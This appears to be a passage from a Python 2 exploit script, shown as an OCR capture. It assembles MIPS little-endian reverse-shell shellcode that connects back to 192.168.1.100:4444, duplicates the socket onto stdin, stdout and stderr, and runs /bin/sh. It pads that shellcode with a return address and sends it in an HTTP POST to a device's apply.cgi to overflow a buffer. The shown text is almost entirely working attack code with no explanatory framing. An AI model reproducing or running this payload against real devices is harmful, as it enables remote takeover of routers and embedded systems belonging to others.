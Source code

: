 ```
17     mipselshell+="\xfd\xff\x0f\x34"   # li t7,0xfffd
18     mipselshell+="\x27\x78\xe0\x01"   # nor t7,t7,zero
19     mipselshell+="\xe2\xff\xaf\xaf"   # sw t7,-30(sp)
20     mipselshell+=struct.pack('<2c',ports[1],ports[0]) + "\x0e\x3c"   # lui t6,0x1f90
21     mipselshell+=struct.pack('<2c',ports[1],ports[0]) + "\xce\x35"   # ori t6,t6,0x1f90
22     mipselshell+="\xe4\xff\xae\xaf"   # sw t6,-28(sp)
23     mipselshell+=struct.pack('<2c',hosts[1],hosts[0]) + "\x0e\x3c"   # lui t6,0x7f01
24     mipselshell+=struct.pack('<2c',hosts[3],hosts[2]) + "\xce\x35"   # ori t6,t6,0x101
25     mipselshell+="\xe6\xff\xae\xaf"   # sw t6,-26(sp)
26     mipselshell+="\xe2\xff\xa5\x27"   # addiu a1,sp,-30
27     mipselshell+="\xef\xff\x0c\x24"   # li t4,-17
28     mipselshell+="\x27\x30\x80\x01"   # nor a2,t4,zero
29     mipselshell+="\x4a\x10\x02\x24"   # li v0,4170  # sys_connect
30     mipselshell+="\x0c\x01\x01\x01"   # syscall 0x40404
31     mipselshell+="\xfd\xff\x11\x24"   # li s1,-3
32     mipselshell+="\x27\x88\x20\x02"   # nor s1,s1,zero
33     mipselshell+="\xff\xff\xa4\x8f"   # lw a0,-1(sp)
34     mipselshell+="\x21\x28\x20\x02"   # move a1,s1 # dup2_loop
35     mipselshell+="\xdf\x0f\x02\x24"   # li v0,4063 # sys_dup2
36     mipselshell+="\x0c\x01\x01\x01"   # syscall 0x40404
37     mipselshell+="\xff\xff\x10\x24"   # li s0,-1
38     mipselshell+="\xff\xff\x31\x22"   # addi s1,s1,-1
39     mipselshell+="\xfa\xff\x30\x16"   # bne s1,s0,68 <dup2_loop>
40     mipselshell+="\xff\xff\x06\x28"   # slti a2,zero,-1
41     mipselshell+="\x62\x69\x0f\x3c"   # lui t7,0x2f2f "bi"
42     mipselshell+="\x2f\x2f\xef\x35"   # ori t7,t7,0x6269 "//"
43     mipselshell+="\xec\xff\xaf\xaf"   # sw t7,-20(sp)
44     mipselshell+="\x73\x68\x0e\x3c"   # lui t6,0x6e2f "sh"
45     mipselshell+="\x6e\x2f\xce\x35"   # ori t6,t6,0x7368 "n/"
46     mipselshell+="\xf0\xff\xae\xaf"   # sw t6,-16(sp)
47     mipselshell+="\xf4\xff\xa0\xaf"   # sw zero,-12(sp)
48     mipselshell+="\xec\xff\xa4\x27"   # addiu a0,sp,-20
49     mipselshell+="\xf8\xff\xa4\xaf"   # sw a0,-8(sp)
50     mipselshell+="\xfc\xff\xa0\xaf"   # sw zero,-4(sp)
51     mipselshell+="\xf8\xff\xa5\x27"   # addiu a1,sp,-8
52     mipselshell+="\xab\x0f\x02\x24"   # li v0,4011 # sys_execve
53     mipselshell+="\x0c\x01\x01\x01"  # syscall 0x40404
54     print 'ending ...'
55     return mipselshell 
56 try:
57     target = sys.argv[1]
58 except:
59     print "Usage: %s <target>" % sys.argv[0]
60     sys.exit(1) 
61 url = "http://%s/apply.cgi" % target
62 #ip='192.168.230.136'
63 sip='192.168.1.100'     #reverse_tcp local_ip
64 sport = 4444            #reverse_tcp local_port
65 DataSegSize = 0x4000
66 host=socket.ntohl(struct.unpack('<I',socket.inet_aton(sip))[0])
67 payload = makepayload(host,sport)
68 addr = struct.pack("<L",0x10001AD8)
69 DataSegSize = 0x4000
70 buf = "\x00"*(10000-len(payload))+payload+addr*(DataSegSize/4) 
71 req = urllib2.Request(url, buf)
72 print urllib2.urlopen(req).read()

```
